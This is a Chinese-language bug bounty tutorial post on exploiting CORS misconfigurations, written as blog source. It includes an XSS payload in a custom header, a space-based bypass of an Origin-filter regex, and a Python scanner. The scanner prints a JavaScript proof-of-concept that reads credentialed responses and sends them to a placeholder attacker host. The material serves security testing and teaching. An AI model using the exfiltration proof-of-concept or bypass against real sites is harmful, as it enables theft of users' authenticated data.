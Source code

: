 ```yaml
---
layout: post
title: BugBounty基础 - CORS
---
```


## 介绍
---

关于CORS的过多介绍这里不再赘述，以下文章很清楚的描写了相关信息:

> 通过访问攻击者部署的网站，请求目标服务器，从而跨域访问受害者的相关资源

[Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

[Advanced CORS Exploitation Techniques](https://corben.io/blog/18-6-16-advanced-cors-techniques)


## 深入理解
---

### 在无COOKIE和认证时进行客户端缓存投毒(Client-Side cache poisoning)

> 此情况网站会将指定的**自定义** http头用作回显

```
GET / HTTP/1.1  
Host: example.com  
X-User-id: <svg/onload=alert(1)>  
  
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: *  
Access-Control-Allow-Headers: X-User-id  
Content-Type: text/html  
...  
Invalid user: <svg/onload=alert(1)>
```


### 一种对Origin头过滤的案例及绕过

```
SetEnvIf Origin "^https?:\/\/(.*\.)?xxe.sh([^\.\-a-zA-Z0-9]+.*)?" AccessControlAllowOrigin=$0Header set Access-Control-Allow-Origin %{AccessControlAllowOrigin}e env=AccessControlAllowOrigin
```

正则解释

```
[^\.\-a-zA-Z0-9] = does not match these characters: "." "-" "a-z" "A-Z" "0-9"+ = a quantifier, matches above chars one or unlimited times (greedy).* = any character(s) except for line terminators
```

> 从 xxe.sh阻止所有子域和这些域上的任何端口进行跨域访问

使用空格进行绕过 `. - a-z A-Z 0-9` 正则匹配

```
Origin: 'http://xxx.xxe.sh .payload'
```

随后修改hosts文件

```
127.0.0.1 xxx.xxe.sh_.payload
```

## 代码实现
---

既然知道了能够通过 `Access-Control-Allow-Origin` 和 `Access-Control-Allow-Credentials` 验证是否存在CORS，以及了解了相关的绕过方法和触发方法，那么做一个简单的扫描器也轻而易举:

```python
#python3
import requests
import re
import sys

if len(sys.argv) < 2:
    print("requires a url parameter.")
    sys.exit(0)
else:
    url = sys.argv[1]

def CheckCORS(url):
    domain = re.search(r"https?://([\w.-]+)/", url)
    domain = domain.group(1)
    payload = ['https://'+domain+'.test.com','http://'+domain+'.test.com','https://'+domain+' .test.com','https://'+domain+'_.test.com','null','https://www.test.com','http://www.test.com']
    POC = """
	var req = new XMLHttpRequest();  
	req.onload = reqListener;  
	req.open('get','"""+url+"""',true);  
	req.withCredentials = true;  
	req.send();  
  
	function reqListener() {  
	    location='//atttacker.net/log?key='+this.responseText;  
	};
	"""
    for i in range(len(payload)):
        try:
            headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Origin": payload[i]
            }
            response = requests.get(url,headers=headers)
            acao_headers = response.headers['Access-Control-Allow-Origin']
            acac_headers = response.headers['Access-Control-Allow-Credentials']
            if (acao_headers == payload[i] or  acao_headers == '*') and acac_headers == "true":
                print("{} has a CORS vulnerability.".format(url))
                print("try to use poc:\n {}".format(POC))
                print("change hosts file to: 127.0.0.1  {}\nand put POC HTML file in HTTP Server.".format(payload[i]))
                break
                return url
        except:
            pass

if __name__ == "__main__":
    CheckCORS(url)
    
```